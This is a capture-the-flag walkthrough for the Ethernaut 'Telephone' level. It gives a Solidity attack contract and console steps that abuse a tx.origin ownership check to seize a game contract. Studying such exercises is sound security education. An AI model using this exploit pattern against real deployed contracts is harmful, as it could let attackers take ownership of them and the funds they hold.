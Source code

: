 # Telephone

## Objective

Exploit the Telephone contract's flawed use of `tx.origin` in access control to become the new owner of the contract instance.

---

## Getting Started

1. Go to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
2. Select the **"Telephone"** level
3. Click **“Get new instance”** and approve the transaction in MetaMask
4. The instance is now deployed and available as the `contract` object in the browser console
5. Save the instance address:

    ```js
    contract.address
    ```

---

## Walkthrough

### Step 1: Write and Deploy the Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
     function changeOwner(address _owner) external;
}

contract TelephoneAttack {
     function attack(address target) public {
          ITelephone(target).changeOwner(msg.sender);
     }
}
```

**Explanation:**
This contract calls `changeOwner()` on the vulnerable Telephone contract. Since the call originates from a contract, `msg.sender` is the attack contract and `tx.origin` is your wallet, satisfying the flawed check.

---

### Step 2: Compile and Deploy the Attack Contract

- Compile `TelephoneAttack.sol` in Remix using Solidity 0.8.x
- Deploy the contract using the `Injected Provider - MetaMask` environment

**Explanation:**
Deploying the attack contract prepares you to interact with the Telephone instance as an intermediary, bypassing the `tx.origin` check.

---

### Step 3: Execute the Attack

```js
// In Remix, call:
attack(<TELEPHONE_CONTRACT_ADDRESS>)
```

**Explanation:**
Calling `attack()` with the Telephone contract address triggers the exploit, making you the new owner.

---

### Step 4: Confirm Ownership

```js
await contract.owner()
```

**Explanation:**
Verifies that your address is now the owner of the Telephone contract instance.

---

## What You Learn

This level teaches the following:

* Why `tx.origin` is unsafe for access control
* The difference between `msg.sender` and `tx.origin`
* How to exploit contracts that use improper authentication
* The importance of using `msg.sender` for authorization logic

---

## Resources Used

* [Ethernaut Game](https://ethernaut.openzeppelin.com/)
* [Solidity Docs – `tx.origin`](https://docs.soliditylang.org/en/latest/security-considerations.html#tx-origin)
* [Remix IDE](https://remix.ethereum.org/)
* [External writeup](https://shubhamm.me/blog/ethernaut_challenges_telephone)

---

